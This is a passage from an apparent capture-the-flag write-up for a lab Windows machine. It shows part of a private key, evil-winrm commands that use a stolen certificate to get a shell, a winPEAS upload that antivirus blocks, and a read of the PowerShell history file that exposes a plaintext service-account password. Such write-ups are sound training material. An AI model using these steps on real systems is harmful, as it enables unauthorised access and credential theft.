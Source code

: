 ```
/ww4ZFfKfQd7oLxqcRADvp1st2yhR7OhrN1pfl8CgYEAsJNjb8LdoSZKJZc0/F/r
c2gFFK+MMnFncM752xpEtbUrtEULAKkhVMh6mAywIUWaYvpmbHDMPDIGqV7at2+X
TTu+fiiJkAr+eTa/Sg3qLEOYgU0cSgWuZI0im3abbDtGlRt2Wga0/Igw9Ewzupc8
A5ZZvI+GsHhm0Oab7PEWlRY=
-----END PRIVATE KEY-----
```

Remove the lines before `-----BEGIN PRIVATE KEY-----` in each of the files to get the key and certificate by themselves.

### Evil WinRM

According to [HackTricks](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm#using-evil-winrm) and the [Evil WinRM documentation](https://github.com/Hackplayers/evil-winrm#help), we can use `evil-winrm` like so: `evil-winrm -S -k <key> -c <certificate> -i <IP>` and authenticate via SSL. Let's connect by running `evil-winrm -S -k key.pem -c cert.pem -i 10.10.11.152`.

We get a shell on the machine! Now, we can get the `user.txt` flag with `cat ..\Desktop\user.txt`.

## Lateral Movement

Let's upload [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to scan for ways to gain privileges. Since we are using `evil-winrm` we can simply run the `upload` command: `upload /home/kali/Downloads/winPEASx64.exe`. We can run it with `.\winPEASx64.exe`:

```
Program 'winPEASx64.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winPEASx64.exe
+ ~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\winPEASx64.exe
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Windows is detecting it as a virus. We could try to [bypass the AV](https://book.hacktricks.xyz/windows-hardening/av-bypass) but that seems like a lot of work. We could also try the [bat version of winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat).

After digging around for a while following the [Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) page on HackTricks, we found that there is a [PowerShell history file](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#powershell-history). You can view the contents with `type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`:

```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
